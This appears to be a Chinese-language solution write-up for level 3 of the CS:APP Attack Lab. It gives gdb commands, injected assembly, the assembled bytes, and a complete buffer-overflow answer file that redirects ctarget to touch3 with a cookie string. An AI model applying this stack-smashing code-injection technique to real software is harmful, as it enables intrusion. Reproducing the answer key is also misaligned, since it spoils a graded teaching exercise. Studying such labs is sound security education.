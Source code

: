

advice中提到，touch3和hexmatch的调用会污染栈，选择合适位置保存，test的栈顶地址相对较大，选择test的栈顶



查看栈顶

```shell
gdb ctraget
b *0x40196c
r -q
info register rsp
rsp 0x5561dca8 0x5561dca8
```



level3.s

```assembly
mov $0x5561dca8, %rdi
pushq $0x4018fa
retq
```
```shell
gcc -c level3.s
objdump -d level3.o > level3.asm
```

level3.asm

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```



401968:	48 83 ec 08          	sub    $0x8,%rsp

所以跳过八个字节，地址占4个字节，于是再跳过4个字节



##### ans3.txt

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```




